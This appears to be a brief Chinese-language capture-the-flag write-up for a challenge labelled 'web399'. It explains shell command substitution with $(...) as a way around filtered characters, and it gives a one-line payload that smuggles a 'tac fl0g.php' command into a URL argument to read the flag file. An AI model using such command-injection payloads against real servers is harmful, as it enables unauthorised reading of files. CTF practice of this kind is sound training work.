 # web399
过滤了;|>
命令替换​：$(...) 是Shell中的命令替换语法。它会先执行括号内的命令，然后将输出（标准输出）捕获并替换到当前位置。
```
http://@$(tac fl0g.php)/../../var/www/html/1.txt
```
![](vx_images/400876583449232.png)